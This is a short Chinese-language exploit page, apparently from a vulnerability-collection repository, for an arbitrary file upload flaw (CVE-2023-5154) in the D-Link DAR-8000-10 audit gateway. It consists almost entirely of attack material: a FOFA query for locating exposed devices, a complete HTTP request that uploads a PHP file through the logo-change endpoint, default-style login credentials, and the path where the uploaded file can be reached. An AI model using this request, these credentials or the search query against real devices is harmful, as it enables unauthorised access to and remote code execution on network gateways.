 ## D-Link_DAR-8000-10上网行为审计网关任意文件上传漏洞(CVE-2023-5154)


## fofa
```
body="DAR-8000-10" && title="D-Link"
```
![image](../../images/0604d3f1-2325-4ef2-9ba3-cfbe182da07d.png)

## poc
```
POST /sysmanage/changelogo.php HTTP/1.1
Host: 
Cookie: PHPSESSID={登陆获取}
Accept: image/gif, image/jpeg, image/pjpeg, application/x-ms-application, application/xaml+xml, application/x-ms-xbap, */*
Accept-Language: zh-CN
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 6.1) AppleWebKit/531.32.3 (KHTML, like Gecko) Version/4.1 Safari/531.32.3
Content-Type: multipart/form-data; boundary=---------------------------7e62f02f51878
Accept-Encoding: gzip, deflate
Content-Length: 326
Cache-Control: no-cache
Connection: close

-----------------------------7e62f02f51878
Content-Disposition: form-data; name="file_upload"; filename="phpinfo.php"
Content-Type: application/octet-stream

<?php phpinfo()?>
-----------------------------7e62f02f51878
Content-Disposition: form-data; name="mode"

upload
-----------------------------7e62f02f51878--
```

需要登录
```
test/admin@123
admin/admin
```

![fb11b0e63a546ac5943d60d5237d8d77](../../images/24555069-a601-4295-864b-0ad930ce515e.png)

文件路径：
`/boot/web/upload/diylogo/phpinfo.php`
